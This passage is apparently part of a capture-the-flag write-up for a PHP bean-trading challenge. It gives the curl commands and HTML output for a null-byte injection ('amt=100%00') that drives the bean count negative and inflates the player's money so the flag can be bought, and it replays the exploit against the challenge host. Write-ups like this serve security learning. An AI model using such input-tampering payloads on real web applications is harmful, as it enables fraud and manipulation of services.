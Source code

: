 Buy two beans:

```bash
curl -s -b "$SESH_COOKIE" "http://localhost:1337/?action=buy&amt=2"
```

```html
        <div class="hand-drawn mb-8">
            <div class="text-xl mb-4">Your Stash:</div>
            <div class="grid grid-cols-2 gap-4">
                <div>Money: $50</div>
                <div>Beans: 2</div>
            </div>
        </div>
```

Sell 100 beans with a null byte in our amount. To include a null byte in the `amt` input, we can use url-encoding. If you want to see the HTML output, you will have to use `--output -` to indicate that you want to send to stdout:

```bash
curl -s --output - -b "$SESH_COOKIE" "http://localhost:1337/?action=sell&amt=100%00"
```

```html
        <div class="hand-drawn mb-8">
            <div class="text-xl mb-4">Your Stash:</div>
            <div class="grid grid-cols-2 gap-4">
                <div>Money: $2550</div>
                <div>Beans: -98</div>
            </div>
        </div>
```

Now we can buy the flag:

```bash
curl -s -b "$SESH_COOKIE" "http://localhost:1337/?action=flag" | sed -n 's/.*\(oicc.*\)/\1/p'
```

```
oiccflag{test}
```

To replicate this on the challenge infrastructure:

```bash
SESH_COOKIE=$(curl -s -i "http://challenges.oceaniacc.com:5002" | sed -n 's/.*\(PHPSESSID=[^;]*\).*/\1/p')
curl -s -b "$SESH_COOKIE" "http://challenges.oceaniacc.com:5002/?action=buy&amt=2"
curl -s --output - -b "$SESH_COOKIE" "http://challenges.oceaniacc.com:5002/?action=sell&amt=100%00"
```

> Unfortunately, the challenge infrastructure got taken down before I was able to solve this challenge so I don't have the actual flag 😢

#### Post Challenge Thoughts

PHP quirks are interesting. I had to ask hashkitten about the string comparison logic because I had no idea why it was doing that originally. I assumed it was just magically removing the 0s in the string for whatever reason.
